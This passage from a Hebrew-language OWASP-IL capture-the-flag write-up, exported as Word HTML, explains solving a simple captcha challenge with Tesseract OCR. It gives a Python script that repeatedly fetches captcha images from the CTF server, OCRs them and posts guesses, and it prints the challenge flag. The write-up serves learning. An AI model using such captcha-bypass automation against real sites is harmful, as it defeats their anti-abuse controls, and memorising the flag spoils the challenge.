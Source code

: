 embed'><span lang=HE style='font-family:"Arial",sans-serif'>האתר עצמו נראה כך:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR><img border=0 width=550
height=207 id="Picture 24" src="images/image023.png"></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>עבור הפתרון השתמשתי
ב-</span><span dir=LTR></span><span lang=HE dir=LTR><span dir=LTR></span> </span><span
lang=en-IL dir=LTR>Tesseract</span><span dir=RTL></span><span lang=en-IL
style='font-family:"Arial",sans-serif'><span dir=RTL></span> </span><span
lang=HE style='font-family:"Arial",sans-serif'>– ספריה לביצוע </span><span
lang=en-IL dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>captcha</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> שהאתר השתמש בו היה
פשוט ביותר, ללא רעש או הפרעות בתמונה, וספריית </span><span lang=EN-US dir=LTR>Tesseract</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> התמודדה איתו בצורה טובה יחסית. מדי פעם הספרייה הייתה מפספסת,
אבל אפשר היה להמשיך לנסות את התמונה הבאה (הדרישה הייתה לפענח 15 תמונות בחצי
דקה, אך לא הייתה דרישה לרצף פענוחים כלשהו).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הקוד:</span></p>

```python
from PIL import Image
import pytesseract
import requests
 
CAPTCHA_BASE_URL = 'http://challenges.owaspil.ctf.today:8088'
with requests.Session() as s:
    for i in range(45):
           print ("-" * 15)
           print (i)
           url = CAPTCHA_BASE_URL + '/captcha.php'
           response = s.get(url, stream=True)
          
           guess = pytesseract.image_to_string(Image.open(response.raw))
           print (guess)
          
           payload = {'captcha': guess, "submit": ""}
           response = s.post(CAPTCHA_BASE_URL, data=payload)
           if "flag" in response.text:
                print (response.text)
                break
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{YouAreTheCaptchaMaster!}</span></b><span
dir=RTL></span><b><span lang=EN-US style='font-family:"Arial",sans-serif'><span
dir=RTL></span> </span></b></p>
<b><span lang=HE dir=RTL style='font-size:11.0pt;line-height:107%;font-family:
"Arial",sans-serif'><br clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=HE dir=RTL style='font-family:"Arial",sans-serif'>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 6 - </span><span
lang=EN-US dir=LTR>Around the world</span><span dir=RTL></span><span lang=HE
style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת קושי
קלה, 300 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi: